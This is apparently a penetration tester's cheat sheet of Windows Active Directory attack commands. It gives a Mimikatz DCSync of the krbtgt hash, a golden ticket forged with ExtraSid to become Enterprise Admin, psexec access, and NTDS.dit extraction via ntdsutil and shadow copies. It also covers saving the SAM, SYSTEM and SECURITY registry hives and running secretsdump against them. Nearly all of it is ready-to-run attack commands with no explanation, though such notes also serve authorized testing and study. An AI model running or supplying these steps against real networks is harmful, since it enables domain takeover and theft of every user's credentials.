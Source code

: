 
## Domain Admin to Enterprise Admin

* Obtain krbtgt hash
   * `lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt`
   * `cce9d6cd94eb31ccfbb7cc8eeadf7ce1`
* Find domain SIDs
   * `Get-DomainSID -Domain prod.corp1.com`
   * `S-1-5-21-634106289-3621871093-708134407`
   * `Get-DomainSID -Domain corp1.com`
   * `S-1-5-21-1587569303-1110564223-1586047116`
* Craft golden ticket with ExtraSid
   * `kerberos::golden /user:h4x /domain:prod.corp1.com /sid:S-1-5-21-634106289-3621871093-708134407 /krbtgt:cce9d6cd94eb31ccfbb7cc8eeadf7ce1 /sids:S-1-5-21-1587569303-1110564223-1586047116-519 /ptt`
* Verify access
   * `psexec.exe \\rdc01 cmd`


## DCSync

* Ntdsutil
   * `powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full C:\Windows\Tasks\' q q"`
   * `Compress-Archive -Path C:\Windows\Tasks\* -DestinationPath C:\Windows\Tasks\debug.zip`
* Shadow Copy
  * `vssadmin.exe create shadow /for=C:`
  * `cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\Windows\Tasks\`
  * `cmd /c copy  \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\Windows\Tasks\`
  * `cmd /c copy  \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY C:\Windows\Tasks\`
  * `Compress-Archive -Path C:\Windows\Tasks\* -DestinationPath C:\Windows\Tasks\debug.zip`
* SecretsDump
   * `secretsdump.py <domain>/<user>:<pass>@<target> -outputfile dump`
   * `secretsdump.exe <domain>/<user>:<pass>@<target> -outputfile dump`


## SecretsDump (local)

* Local NTDS
   * `secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit -outputfile dump LOCAL`
* Local SAM
   * Download local passwords
      * `reg save HKLM\SAM C:\Windows\Tasks\SAM`
   * Download decryption key
      * `reg save HKLM\SYSTEM C:\Windows\Tasks\SYSTEM`
   * Download cached domain credentials
      * `reg save HKLM\SECURITY C:\Windows\Tasks\SECURITY`
   * Run Impacket locally
      * `secretsdump.py -system SYSTEM -security SECURITY -sam SAM -outputfile dump LOCAL`

